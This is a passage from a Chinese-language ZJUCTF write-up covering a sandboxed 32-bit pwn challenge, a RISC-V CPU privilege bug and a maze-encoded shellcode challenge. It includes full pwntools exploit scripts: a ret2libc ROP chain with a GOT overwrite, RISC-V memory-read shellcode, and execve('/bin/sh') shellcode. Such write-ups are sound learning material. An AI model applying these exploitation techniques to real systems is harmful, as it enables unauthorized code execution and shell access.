 0006: 0x15 0x00 0x01 0x000000ad  if (A != rt_sigreturn) goto 0008
 0007: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0008: 0x06 0x00 0x00 0x00000000  return KILL
 ```
被ban的差不多了，没开pie，我们通过栈溢出打putsplt、puts_got的那一条链子来泄露libc吗，然后用call read_plt的方法，设置好参数，来重写puts的got，从而劫持puts，因为safecode并没有开沙箱，所以劫持这个到read前面沙箱后面，这样再打一次栈溢出拿shell，不过tmd，这B题一个是调试起来很困难，然后还有就是32位传多个参数的顺序，最后还有奇怪的情况，明明system的传参是\bin\sh的地址，还是拿不到shell，最后一点一点跟发现是在execve的时候，他的environ参数是0x41414141，应该是ebp被写坏出的奇怪问题，懒得修了，反正把padding换成\x00就行了，改完ok，所以你会发现我的脚本用的padding都是\x00
脚本如下
```python
from pwn import *


context.log_level = 'debug'
#context.terminal = ['tmux', 'splitw', '-h']
def s(a):
    p.send(a)


def sa(a, b):
    p.sendafter(a, b)


def sl(a):
    p.sendline(a)


def sla(a, b):
    p.sendlineafter(a, b)


def r():
    p.recv()


def pr():
    print(p.recv())

def ru(a):
    return p.recvuntil(a)

def rl(a):
    return p.recvline(a)


def itr():
    p.interactive()


def debug():
    gdb.attach(p)
choice=0
if(choice==1):
    gdbscript='''
    #set scheduler-locking on
    #b *0x08048826
    b *0x804883A
    b read
    c
    c
    '''
    p=gdb.debug("./safe",gdbscript=gdbscript)
elif(choice==2):
    p=process("./safe")
else:
    p=remote('127.0.0.1',59728)
read_plt=0x8048590
pop3_ret=0x8048949
bss_addr=0x804a000+0x100
puts_got=0x804a030-8
exit_plt=0x80488E9
pop1_ret=0x804894b
pop2_ret=0x0804894A

'''

'''
puts_plt=0x080485F0
payload=b"\x00"*0x408+p32(bss_addr)+p32(puts_plt)+p32(pop1_ret)+p32(puts_got)+p32(read_plt)+p32(pop3_ret)+p32(0)+p32(bss_addr)+p32(0x200)+p32(read_plt)+p32(exit_plt)+p32(0)+p32(puts_got)+p32(10)
payload+=b"\x00"*(0x800-len(payload))
s(payload)
if(choice==0):
    ru(b"In the sandbox...\n")
    s1=u32(p.recvn(4))
    print(hex(s1))
else:
    s1=u32(p.recvuntil('\xf7')[-4:])
    print(hex(s1))
libc=ELF("./libc-2.27.so")
libc_base=s1-libc.sym['puts']
print("libc_base",hex(libc_base))
open_addr=libc_base+libc.sym['open']
write_addr=libc_base+libc.sym['write']
system_addr=libc_base+libc.sym['system']
binsh_addr=libc_base+next(libc.search(b'/bin/sh\x00'))
ret_addr=libc_base+libc.search(asm("ret")).__next__()
sleep(0.001)
#0x00003aac 
pop_esp=0x00003aac+libc_base
#payload2=
#payload2=b"/flag\x00\x00\x00"+p32(open_addr)+p32(pop2_ret)+p32(0)+p32(bss_addr)+p32(read_plt)+p32(pop3_ret)+p32(0x200)+p32(bss_addr+0x400)+p32(3)+p32(write_addr)+p32(pop3_ret)+p32(0x200)+p32(bss_addr+0x400)+p32(1)
payload2=p32(system_addr)+p32(pop1_ret)+p32(binsh_addr)
payload2+=b"\x00"*(0x200-len(payload2))
s(payload2)
payload3=p32(0x8048809)
payload3+=b"\x00"*(10-len(payload3))
s(payload3)

payload4=(0xf7c6c2e8-0xf7c6bf30-12)*b"\x00"+p32(0x400000)*3+p32(ret_addr)+p32(system_addr)+p32(0xdeadbeef)+p32(binsh_addr)
s(payload4)
'''
payload=0x408*b"A"+p32(0xdeadbeef)+p32(read_plt)+p32(ret1_addr)+p32(0x200)+p32(bss_addr)+p32(0)
payload+=p32(read_plt)+p32(exit_plt)+p32(10)+p32(puts_got)+p32(0)
payload+=b"A"*(0x800-len(payload))
s(payload)
'''
itr()
```
拿下
### cs_master
**一血**
**“将军说CPU一定要有人写”队名的由来**
CPU pwn，笑死了最有意思的一集。
看了一大堆，刚开始不知道做什么，仔细读发现是要去一片被保护的区域里面读内存，虽然我本地上跑他一直是特权态，一直都能读出来，随后发现远程上不行。随后思路就是如何进入特权态，想的办法就是ecall，但是ecall会卡死，仔细看波形图发现他ecall会跳入stvec，但是stvec的值是0，然后从0再跑回shellcode，然后再执行shellcode里面的ecall，导致卡死，但是想要劫持stvec又要csrw，这个有要求要特权态，这不就死循环了吗，后面就像如何在不执行ecall下进入特权态，仔细看代码发现branch_taken的优先级大于ecall，也就是flush优先级更高，而且flush不会清空next_privilege，导致如果我们b型后面加一条ecall，然后b型跳走，这样可以偷到特权态，随后执行即可拿到特权态，读出flag即可
工具有

[RV32在线汇编器](https://riscvasm.lucasteske.dev/#)
将指令转换为base64
```python
import base64
from pwn import *

# 设置架构（虽然 p32 不需要这个上下文也能工作，但保持习惯很好）
context.arch = 'riscv32'

# 这里放入你手动硬编码的机器码 (字符串形式)
# 不需要手动加 0x，脚本会自动处理
hex_instructions = [
    "00000463",
    "00000073",
    
    "00100093",
    "01f00113",
    "002090b3",
    "00008093",
    "0000a183",
   


   
    "0040a203",
    "0080a283",
    "00c0a303",
    "0100a383",
    "0140a403",
    "0180a483",
    "01c0a503",
    "0200a583",
    "0240a603",
    "0280a683",
    "02c0a703",
    #"10200073",
    
]
#ZJUCTF{}
code = b""

for h in hex_instructions:
    # 1. int(h, 16) 将十六进制字符串转为整数
    # 2. p32(...) 将整数转为 32位小端序字节流 (RISC-V 格式)
    code += p32(int(h, 16))

# Base64 编码
payload = base64.b64encode(code).decode()

print("Payload generated:")
print(payload)
```
随后将生成的base64传进远程，查看寄存器信息，手动dump出来，翻译一下即可
```python
from pwn import *
flag=b""
def add(a):
    global flag
    flag+=struct.pack("I", a)

add(0x43554a5a)
add(0x797b4654)
add(0x6d5f7530)
add(0x5f743575)
add(0x345f3362)
add(0x6d30635f)
add(0x33747570)
add(0x79355f72)
add(0x6d337435)
add(0x35406d5f)
add(0x7d723374)
print(flag)
ZJUCTF{y0u_mu5t_b3_4_c0mput3r_5y5t3m_m@5t3r}
'''
global _boot
.text

_boot:                    /* x0  = 0    0x000 */
    /* Test ADDI */
    beq x0,x0,loop
    ecall
 loop:   
 	li x1,0x1
    li x2,31
    sll x1,x1,x2
    addi x1,x1,0
    lw x3,0(x1)
    lw x4,4(x1)
    lw x5,8(x1)
    lw x6,12(x1)
    lw x7,16(x1)
    lw x8,20(x1)
    lw x9,24(x1)
    lw x10,28(x1)
    lw x11,32(x1)
    lw x12,36(x1)
    lw x13,40(x1)
    lw x14,44(x1)


.data
variable:
	.word 0xdeadbeef
'''
```
### unlucky
**一血**
就是输入seec，根据seed生成迷宫，然后迷宫走出去就可以根据我们的路径来以一定规则转换成代码并执行，也就是我们的shellcode要能过验证。思路就是我们要创建能够过验证的shellcode，最短的就是
```S
pop rax
sub rax,1311
call rax
```
这个短且很少有连续一样的方向，但是问题现在就是，要找好的迷宫来做这个事情，后面hint放出，prng有问题，直接找AI写个脚本帮我生成好的迷宫，刚开始想要全空，但是发现不行，g随后一直尝试，找到了一个最下面四行全空的seed，生成脚本如下
```python
#!/usr/bin/env python3
from z3 import *

def solve_half_empty_maze():
    # 1. 定义 Seed
    seed = BitVec('seed', 64)
    state = seed
    solver = Solver()
    
    print("[*] Constraints: Rows 4, 5, 6, 7 (Bottom Half) must be EMPTY.")
    print("[*] Total constraints: 32 bits fixed / 64 bits entropy.")

    # -------------------------------------------
    # 模拟 LFSR (必须严格匹配题目 sub_12C3)
    # -------------------------------------------
    def symbolic_step(st):
        # 提取关键位
        b33 = LShR(st, 33) & 1
        b60 = LShR(st, 60) & 1
        b63 = LShR(st, 63) & 1 # (qword < 0) is Bit 63
        b8  = LShR(st, 8)  & 1 # BYTE1 & 1 is Bit 8
        
        feedback = b33 ^ b60 ^ b63 ^ b8
        
        # 输出值 v1 = state & 1
        val = st & 1
        
        # 更新状态
        new_st = LShR(st, 1) | (feedback << 63)
        
        return val, new_st

    # [A] 预热 64 次
    for i in range(64):
        _, state = symbolic_step(state)

    # [B] 模拟生成循环
    constraints_count = 0
    
    for j in range(8):      # Row 0-7 (0 is Top, 7 is Bottom)
        for k in range(8):  # Col 0-7
            
            # 跳过起点(7,0) 和 终点(0,7) - 这一步也会消耗随机数
            is_reserved = (k == 0 and j == 7) or (k == 7 and j == 0)
            
            if not is_reserved:
                val, state = symbolic_step(state)
                
                # [核心约束]
                # 如果行号 >= 4 (即 4, 5, 6, 7 行)，必须是路 (1)
                if j >= 4:
                    solver.add(val == 1)
                    constraints_count += 1

    print(f"[*] Constraints added: {constraints_count}. Solving with Z3...")
    
    # -------------------------------------------
    # 求解
    # -------------------------------------------
    if solver.check() == sat:
        model = solver.model()
        magic_seed = model[seed].as_long()
        
        print("\n" + "="*50)
        print(f"[+] FOUND SUPER SEED: {magic_seed}")
        print(f"[+] Hex: {hex(magic_seed)}")
        print("="*50)
        print("[-] The bottom half of the maze (Rows 4-7) is now a giant open field.")
        print("[-] You can perform your entire shellcode dance there.")
        print("[-] Once finished, just walk Up/Right to the exit.")
        
        return magic_seed
    else:
        print("[-] UNSAT. Even Z3 couldn't force 32 straight ones (unlikely).")
        print("    If this happens, try reducing to 3 rows (j >= 5).")

if __name__ == "__main__":
    solve_half_empty_maze()
```
得到种子

`7785659896892777472`
随后还要插入一些能够不影响关键步骤的指令，来调整位置，总结如下
```S
rex #右移一格后向上三格
rex.W #右移一个向上一格
clc# 右移两格
rex.WB #左移两格
```
插入一定量的`"gadget"`来调整位置，随后拿下，脚本如下
```python 
backdoor=0x12a9
ret=0x17c8
from pwn import *
context.arch='amd64'
context.log_level='debug'
pre_shellcode='''
pop rax
sub rax,1311
call rax
'''
shellcode='''
rex.X

pop rax
clc
rex.X
sub ax,1311
call rax

'''

gdbscript='''
b mmap
c
c
c
c
c
c
c
c
c
'''
#p=gdb.debug("./vuln",gdbscript=gdbscript)
p=process("./vuln")
#p=remote('127.0.0.1',57826)
def wasd_to_asm(wasd_str, arch='amd64'):
    context.arch = arch
    mapping = {'w': 0, 'd': 1, 's': 2, 'a': 3}
    data = bytearray()
    
    # 每4个字符转为1个字节
    # 忽略末尾不足4个字符的部分
    limit = len(wasd_str) - (len(wasd_str) % 4)
    
    for i in range(0, limit, 4):
        c = wasd_str[i:i+4]
        try:
            byte_val = (mapping[c[0]] << 6) | \
                       (mapping[c[1]] << 4) | \
                       (mapping[c[2]] << 2) | \
                       mapping[c[3]]
            data.append(byte_val)
        except KeyError:
            continue # 跳过非 wasd 字符

    return disasm(bytes(data))
def shellcode_to_wasd(shellcode):
    # 映射表: 00->w, 01->d, 10->s, 11->a
    # 对应数组索引 0, 1, 2, 3
    mapping = ['w', 'd', 's', 'a']
    
    path = ""
    for b in shellcode:
        # 依次提取 byte 的 7-6, 5-4, 3-2, 1-0 位
        path += mapping[(b >> 6) & 3]
        path += mapping[(b >> 4) & 3]
        path += mapping[(b >> 2) & 3]
        path += mapping[b & 3]
        
    return path

print(asm(shellcode))
print(shellcode_to_wasd(asm(shellcode)),len(shellcode_to_wasd(asm(shellcode))))
shellcode2='''
call rax
'''
#print(shellcode_to_wasd(asm(shellcode2)),len(shellcode_to_wasd(asm(shellcode2))))
#@path='dwws'
#print(wasd_to_asm(path))
'''
1 1 1
1 1 1
1 1 1
'''
p.recvuntil(b"seed")
p.sendline(str(7785659896892777472).encode())
print(shellcode_to_wasd(asm(shellcode)))

path=shellcode_to_wasd(asm(shellcode))
for i in range(len(path)):
    p.recvuntil(b"MAZE")
    p.sendline(path[i])

next_path='ssddddwwwwdd'
for i in range(len(next_path)):
    p.recvuntil(b"MAZE")
    p.sendline(next_path[i])
print(shellcode_to_wasd(asm(shellcraft.sh())))
p.interactive()
```

**奶茶**
出题人说不用shellcode可以拿奶茶，我做了一下，首先种子不用换，还用之前的就可以， 然后比较烦人的是shellcode中的
```S
mov rax, 0x732f2f2f6e69622f
```
这一部分，然后最开始的想法是用分段的方式，先mov高32位，低32位用来调整位置，然后再`mov eax mov ax`这样去调整
本来都写完了，调试的时候发现，tmd `mov eax`会把高位置零，白跑了
最后突然想到，可以用
```S
stosb
```
的方式来做这个，这个指令等效为
```
mov [rdi],al
inc rdi
```
于是用这个来做
```S
rex
clc
push 0x68
rex.WB
push 12
mov rdi,rsp
mov al,0x2f
rex.WB
stosb
mov al,0x62
clc
clc
rex
stosb
mov al,0x69
clc
rex
stosb
mov al,0x6e
rex
stosb
rex.W
mov al,0x2f
clc
rex.WB
rex.WB
stosb
rex.WB
stosb
clc
rex,WB
stosb
mov al,0x73
clc
rex.WB
stosb
rex.W
mov rdi,rsp
clc
mov al,59#execve syscall number
rex.WB
rex
syscall
```
用这个来执行`execve("/bin/sh\x00",0,0)`
其余寄存器是空的，设置好al即可

```python
backdoor=0x12a9
ret=0x17c8
from pwn import *
context.arch='amd64'
context.log_level='debug'
context.terminal=['tmux','splitw','-h']
pre_shellcode='''
pop rax
sub rax,1311
call rax
'''
shel1code='''
rex.X
pop rax
clc
rex.X
sub ax,1311
call rax
'''
shellcode='''
rex
clc
push 0x68
rex.WB
push 12
mov rdi,rsp
mov al,0x2f
rex.WB
stosb
mov al,0x62
clc
clc
rex
stosb
mov al,0x69
clc
rex
stosb
mov al,0x6e
rex
stosb
rex.W
mov al,0x2f
clc
rex.WB
rex.WB
stosb
rex.WB
stosb
clc
rex,WB
stosb
mov al,0x73
clc
rex.WB
stosb
rex.W
mov rdi,rsp
clc
mov al,59#execve syscall number
rex.WB
rex
syscall
'''
'''
rex.W

'''
'''
mov rdi,rsp

rex
stosb
'''

'''
rex.W
mov al,0x2f


'''
'''
rex
nop
mov eax,0x6e692222
clc
rex.W
clc
rex.W
rex.W
mov ax,0x622f
push rax
mov rdi,rsp
clc
clc
rex.W
xor rsi,rsi
push 59
pop rax
clc
mov rdx,rsi
rex.WB
syscall
'''

gdbscript='''
b mmap
c
c
c
c
c
c
c
c
c
'''
#p=gdb.debug("./vuln",gdbscript=gdbscript)
p=process("./vuln")
#p=remote('127.0.0.1',57826)
def wasd_to_asm(wasd_str, arch='amd64'):
    context.arch = arch
    mapping = {'w': 0, 'd': 1, 's': 2, 'a': 3}
    data = bytearray()
    
    # 每4个字符转为1个字节
    # 忽略末尾不足4个字符的部分
    limit = len(wasd_str) - (len(wasd_str) % 4)
    
    for i in range(0, limit, 4):
        c = wasd_str[i:i+4]
        try:
            byte_val = (mapping[c[0]] << 6) | \
                       (mapping[c[1]] << 4) | \
                       (mapping[c[2]] << 2) | \
                       mapping[c[3]]
            data.append(byte_val)
        except KeyError:
            continue # 跳过非 wasd 字符

    return disasm(bytes(data))
def shellcode_to_wasd(shellcode):
    # 映射表: 00->w, 01->d, 10->s, 11->a
    # 对应数组索引 0, 1, 2, 3
    mapping = ['w', 'd', 's', 'a']
    
    path = ""
    for b in shellcode:
        # 依次提取 byte 的 7-6, 5-4, 3-2, 1-0 位
        path += mapping[(b >> 6) & 3]
        path += mapping[(b >> 4) & 3]
        path += mapping[(b >> 2) & 3]
        path += mapping[b & 3]
        
    return path


'''

'''
shelltest='''

lea rax, [rip]
'''
#test dwswsaswwswsdswsdssddsaswsaawsaawsaadawa
#test dwswsaswwsaadswsdssddsaswsaawsaawsaadawa
#mov rax, 0x732f2f2f6e69622f
#test dwswwawdadws
p.recvuntil(b"seed")
p.sendline(str(7785659896892777472).encode())
print(shellcode_to_wasd(asm(shellcraft.sh())))

path=shellcode_to_wasd(asm(shel1code))

for i in range(len(path)):
    p.recvuntil(b"MAZE")
    p.sendline(path[i])

print("test",shellcode_to_wasd(asm(shelltest)))
#print(wasd_to_asm(b"dssswwww"))

next_path='ssddddwwwwdd'
for i in range(len(next_path)):
    p.recvuntil(b"MAZE")
    p.sendline(next_path[i])
print(shellcode_to_wasd(asm(shellcraft.sh())))

p.interactive()
```

## 结束的话
终于打完了，也终于写完了，太多了，题量太大了

## github
我的所有脚本以及文件全部放在[github](https://github.com/fkrcarry/ZJUCTF_writeup_and_exp)上了